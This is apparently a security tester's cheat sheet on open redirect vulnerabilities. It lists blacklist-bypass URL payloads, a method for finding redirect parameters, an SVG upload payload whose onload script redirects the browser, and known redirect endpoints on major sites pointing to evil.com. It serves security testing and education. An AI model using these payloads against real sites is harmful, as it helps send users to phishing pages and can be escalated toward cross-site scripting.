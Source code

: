 +++
title = 'Open Redirect'
+++

Often a bug that brings impact when chained.

Using "https:" to bypass "//" blacklisted keyword

```
https:google.com
```

Using "//" to bypass "http" blacklisted keyword

```
//google.com
```

Using `/\/` to bypass `//` blacklisted keyword

```
\/\/google.com/
/\/google.com/
```

Using "/\" to bypass:

```
/\google.com
```

Using "%E3%80%82" to bypass "." blacklisted character

```
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```
//google%00.com
```

Using parameter pollution

```
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```
http://www.theirsite.com@yoursite.com/
```

## Helpdesk trick

Sometimes a website will redirect only to a helpdesk subdomain, this behavior is interesting because it is possible to create a custom subdomain a place a script that will redirect to an evil website. Making it a open redirect.

## Open Redirect farming

1. If the Applictaion have a user Sign-In/Sign-Up feature, then register a user and log in as the user.
2. Go to your user profile page , for example : samplesite.me/accounts/profile
3. Copy the profile page's URL
4. Logout and Clear all the cookies and go to the homepage of the site.
5. Paste the Copied Profile URL on the address bar
6. If the site prompts for a login , check the address bar , you may find the login page with a redirect parameter like the following
- https://samplesite.me/login?next=accounts/profile
7. Exploit it or escalate to XSS

## Open Redirect uploading svg files

```
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.REMOVETHISlocation='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```

## Known Redirects

https://google.com/amp/s/evil.com
https://meet.google.com/linkredirect?dest=http://evil.com
https://www.google.com/search?btnI&q=http://www.evil.com
https://www.facebook.com/l.php?u=http://evil.com
https://www.youtube.com/redirect?q=http://evil.com
https://docs.google.com/gview?url=https://evil.com  

# Tools

- [Oralyzer](https://github.com/r0075h3ll/Oralyzer)

